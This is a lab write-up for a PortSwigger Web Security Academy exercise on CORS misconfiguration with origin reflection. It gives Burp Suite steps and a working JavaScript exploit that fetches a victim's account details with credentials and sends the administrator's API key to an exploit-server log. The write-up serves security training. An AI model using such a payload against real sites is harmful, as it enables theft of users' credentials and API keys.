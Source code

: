 ## LAB - 1
**lab link: <https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack>**

 **Topic :-** 

- CORS vulnerability with basic origin reflection.

 **To Solve :-**

- Submit the administrator's API key.

 **Procedure :-**

1. Open site in Burp-suite, login with wiener creds.
2. Open the Get accountDetails request in repeater. Add origin header and random site address, to see if it is CORS vuln. which it is.
3. Then open exploit server and in the body write this code-
```
<html>
	<body>
		<script>
			var xhr = new XMLHttpRequest();
			var url = "https://0a8a00ca04c1a6c4d6bbee5f00ca00c8.web-security-academy.net"
			xhr.onreadystatechange = function () {
				if (xhr.readyState == XMLHttpRequest.DONE){
					fetch("/log?key=" + xhr.responseText)
				}
			}
			xhr.open('GET', url + "/accountDetails", true);
			xhr.withCredentials = true;
			xhr.send(null);
		</script>
	</body>
</html>
```
4. Then store and deliver to the victim. and open access log , where admin api key can be seen, submit it. 